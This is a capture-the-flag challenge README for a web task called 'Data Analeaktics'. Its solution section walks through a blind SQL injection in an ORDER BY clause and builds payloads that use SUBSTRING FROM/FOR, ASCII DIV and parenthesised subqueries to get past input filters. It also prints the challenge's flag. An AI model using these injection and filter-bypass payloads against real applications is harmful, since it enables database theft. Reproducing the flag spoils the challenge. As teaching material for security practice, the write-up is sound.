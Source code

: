 # Data Analeaktics

| Key            | Value                                                                                                                                     |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Data Analeaktics                                                                                                                          |
| Author         | wolfishLamb                                                                                                                               |
| Category       | Web                                                                                                                                       |
| Description    | Exploring a massive dataset is a headache, and now you're telling me that my flag is leaked?                                              |
| Challenge Type | Dynamic Docker                                                                                                                            |
| Docker Image   | [jaredliw/sunctf_web_data-analeaktics](https://hub.docker.com/repository/docker/jaredliw/sunctf_web_data-analeaktics/general) (port 5004) |
| Flag           | sunctf{1nJ3c7ion_1n_0rd3R_bY_cL@Us3}                                                                                                      |
| Score          | 400                                                                                                                                       |

*File(s) in `attachments/` are distributed to the participants.*

![Screenshot](docs/screenshot.png)

## Solution

A special shoutout to [@dyangeng](https://github.com/dyangeng) for helping me develop this website.

<details>
<summary>Click to expand</summary>

The application accepts user input in the form of a query parameter to sort a list of customers. This input is directly
used in an SQL query, which creates an opportunity for blind SQL injection in the `ORDER BY clause`. The objective is to
manipulate the query to get the flag from the `flag` table.

A general approach to solving this challenge is to use if-else statements to determine the flag character by character.
If the character matches the expected character, we order by `id` column; otherwise, we order by `name` column. A
demonstration:

```sql
SELECT *
FROM customers
ORDER BY
/*                                   Change       v   and  v      to brute force the flag */
    CASE WHEN SUBSTRING((SELECT value FROM flag), 1, 1) = 's' THEN id ELSE name END
LIMIT 10;
```

By looking at the order of records returned, we can determine whether the statement is true or false. This allows us to
brute force the flag by writing a simple script.

Now is to deal with the sanitization.

We can tell from the code provided that `(` and `)` are the only two symbols allowed. Here are some workarounds to
bypass this:

- `SUBSTRING(... FROM 1 FOR 1)` instead of `SUBSTRING(..., 1, 1)`.
- `ASCII(SUBSTRING(...)) DIV <ASCII_CODE_OF_A_CHAR>` instead of comparing with the letter itself. `DIV` performs integer
  division.

How `DIV` works here?

Let's say one of the characters in the flag is `s` (ASCII code 115). We make our guesses from the lowest possible ASCII
printable ` ` (ASCII code 32) all the way up to `~` (ASCII code 126). Notice,

```
ASCII('s') DIV 32 = 3
ASCII('s') DIV 33 = 3
ASCII('s') DIV 34 = 3
...
ASCII('s') DIV 114 = 1
ASCII('s') DIV 115 = 1
ASCII('s') DIV 116 = 0
```

We will first get a false when our guess is one more than the actual ASCII code of the character.

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and     vvv      to brute force the flag */
    CASE WHEN ASCII(SUBSTRING((select value from flag) from 1 for 1)) div 116 then id else name end
LIMIT 10;
```

One last sanitation: maximum one space character is allowed.

This can be bypassed by surrounding any subqueries with `()`. Our final payload:

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and      vvv     to brute force the flag */
    CASE WHEN(ASCII(SUBSTRING((select(value)from(flag))from(1)for(1))))div(116)then(id)else(name)end
LIMIT 10;
```

Finally, write a script to get it done. See [how we do it](docs/solve.py).

> Related: *SQL Injection*

</details>

Note: `docs/solve.py` can be used to check if the challenge is working as intended. It will solve the challenge and get
the flag.
